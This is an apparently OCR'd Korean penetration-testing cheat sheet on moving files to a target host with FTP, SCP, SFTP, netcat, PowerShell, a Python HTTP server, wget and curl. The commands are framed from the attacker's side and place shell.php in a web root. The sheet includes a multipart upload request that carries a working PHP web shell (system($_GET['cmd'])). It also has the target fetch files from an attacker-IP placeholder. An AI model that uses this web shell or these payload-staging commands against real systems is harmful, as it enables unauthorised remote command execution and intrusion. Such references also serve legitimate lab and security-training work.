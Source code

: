 ## 파일 업로드 명령어 예시

### 로컬에서 원격으로 파일 전송하기

**FTP 업로드**

```bash
ftp> put 파일명                      # 현재 디렉토리 파일 업로드
ftp> put /경로/파일명                # 특정 경로의 파일 업로드
```

**SCP 업로드**

```bash
scp 파일명 사용자@원격IP:/목적지/경로   # 기본 형식
scp shell.php admin@10.10.10.10:/var/www/html/  # 실제 예시
scp -P 2222 shell.php user@10.10.10.10:/tmp/    # 포트 지정
```

**SFTP 업로드**

```bash
sftp 사용자@원격IP
sftp> put 파일명 목적지경로          # 특정 경로에 업로드
sftp> put shell.php /var/www/html/   # 실제 예시
```

**NC 사용**

```bash
# 수신측(타겟)
nc -lvp 1234 > 받을파일명

# 전송측(공격자)
nc 타겟IP 1234 < 보낼파일명
```

**웹쉘/파일 업로더 사용 시**

```
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="uploadfile"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

**PowerShell 다운로드(윈도우 타겟)**

```powershell
# 원격에서 파일 가져오기
(New-Object System.Net.WebClient).DownloadFile("http://공격자IP/파일명", "C:\저장경로\파일명")
```

**Python 업로드 서버**

```bash
# 공격자 측에서 업로드용 서버 실행
python3 -m http.server 8000

# 타겟에서 파일 다운로드
wget http://공격자IP:8000/파일명
curl -O http://공격자IP:8000/파일명
```

**curl 사용**

```bash
curl -F "file=@/경로/파일명" http://타겟IP/upload.php
```
`@`는 curl에서 파일 업로드할 때 로컬 파일임을 나타내는 표시입니다. `-F` 옵션과 함께 사용합니다.
